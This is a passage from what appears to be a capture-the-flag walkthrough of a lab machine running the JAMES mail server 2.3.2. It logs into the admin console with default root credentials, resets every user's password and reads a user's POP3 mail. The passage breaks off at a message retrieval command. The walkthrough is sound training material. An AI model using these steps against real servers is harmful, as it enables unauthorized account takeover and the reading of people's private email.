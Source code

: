 ```
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
HELP
```

Using the ```listusers``` command, we are able to find all the users that are registered on this server.

```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Apart from that, we also realize that we are able to change the passwords of the users. We will then change all the passwords of the users into password123 so that we are able to authenticate into the pop3 server on port 110.

```
setpassword james password123
Password for james reset
setpassword thomas password123
Password for thomas reset
setpassword john password123
Password for john reset
setpassword mindy password123
Password for mindy reset
setpassword mailadmin password123
Password for mailadmin reset
```

Following that, we will login try to login to the users on port 110, which is the POP3 server. Going down the list of users, We realized that the user james and thomas do not contain any emails in the POP3 server, but the user john contains 1 email. We will then proceed to read the contents of the email using the RETR command.

Looking at the email content, we realize that there migh be some interesting email in mindy's account on the POP3 server, and also, Mindy might have restricted access to some of the servers.

```
┌──(kali㉿kali)-[~]
└─$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS password123
+OK Welcome john
stat
+OK 1 743
RETR 1
```